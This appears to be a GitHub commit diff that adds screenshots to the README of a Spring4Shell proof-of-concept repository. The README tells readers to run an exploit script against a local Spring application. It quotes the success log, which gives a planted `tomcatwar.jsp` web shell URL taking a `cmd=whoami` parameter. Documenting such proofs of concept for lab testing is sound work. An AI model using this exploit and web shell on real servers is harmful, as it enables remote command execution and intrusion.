

Before and after one commit to ckkok/spring4shell-poc, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; pictures changed too: images/01-log-message.png (added), images/02-running-the-payload.png (added); blank space fills up the shorter version.

Commit message:
Add images

```diff
--- a/README.md
+++ b/README.md
@@ -13,4 +13,6 @@ Tested with JDK 11.0.14, Spring Boot 2.6.5, and Apache Tomcat 9.0.60
 - Run `python exp.py --url http://localhost:8080/spring-poc/greeting`
   - If successful, the message `漏洞存在，shell地址为:http://localhost:8080/spring-poc/tomcatwar.jsp?pwd=j&cmd=whoami` will be logged.
   - You should now see the file `tomcatwar.jsp` written to Tomcat's webapps/spring-poc directory. This directory can be changed by modifying `exp.py`.
+    - ![Log message](images/01-log-message.png)
   - Go to the url to see the result of the shell command
+    - ![Running the payload](images/02-running-the-payload.png)
```
